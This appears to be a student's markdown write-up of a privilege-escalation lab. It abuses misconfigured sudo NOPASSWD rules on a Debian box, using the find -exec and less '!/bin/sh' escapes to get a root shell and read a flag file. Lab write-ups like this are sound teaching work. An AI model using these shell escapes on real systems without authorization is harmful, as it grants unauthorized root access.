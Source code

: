 
# Privesc with sudo find

For this practical class, I have a direct SSH access with a low privilege account.

---

## Summary

1. [Sudo list](#sudo-list)
2. [Privilege escalation](#Privilege-escalation)

---

## Sudo list

We begin by listing sudo permissions with ```sudo -l``` command :

```
eleve@debian:~$ sudo -l
Entrées Defaults correspondant pour eleve sur debian :
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

L'utilisateur eleve peut utiliser les commandes suivantes sur debian :
    (root) NOPASSWD: /usr/sbin/apache2, /usr/bin/find, /usr/bin/less, /usr/bin/more, /usr/sbin/tcpdump, /usr/bin/vim, /usr/bin/man
```

Here is the list : ```(root) NOPASSWD: /usr/sbin/apache2, /usr/bin/find, /usr/bin/less, /usr/bin/more, /usr/sbin/tcpdump, /usr/bin/vim, /usr/bin/man```
It means that we can use all of thoses commands with root privileges without needing to use password.

---

## Privilege escalation

And here we have a lot of choice for our privilege escalation, thanks to [GTFOBins](https://gtfobins.github.io/) we can see a list of command we can use in order to abuse all of thoses bad configurated sudo permissions.
Here is the detail for two weak points.

<details>

<summary>find privesc</summary>

We can use the ```find``` command in order to get a root shell :

```sudo find . -exec /bin/sh \; -quit```

It simply use the find command with sudo permission, and then escape from the find command in order to execute a shell, but this shell is executed as sudo, so with root permissions.

```
# whoami
root
```

Then we simply need to get our flag :

```
# cat  /root/flag.txt
Félicitations, vous êtes root !
```

---

</details>


<details>
  
<summary>less privesc</summary>

There is an another way with ```less``` to get a root shell.

Simply use the less command with sudo permission like this :

```
sudo less /etc/profile
```

Then use the exclamation point to escape and use a command :

```
!/bin/sh
```

And here we, executing again a shell with sudo permission so as root :

```
# whoami
root
```

Then we simply need to get our flag :

```
# cat  /root/flag.txt
Félicitations, vous êtes root !
```

---

</details>

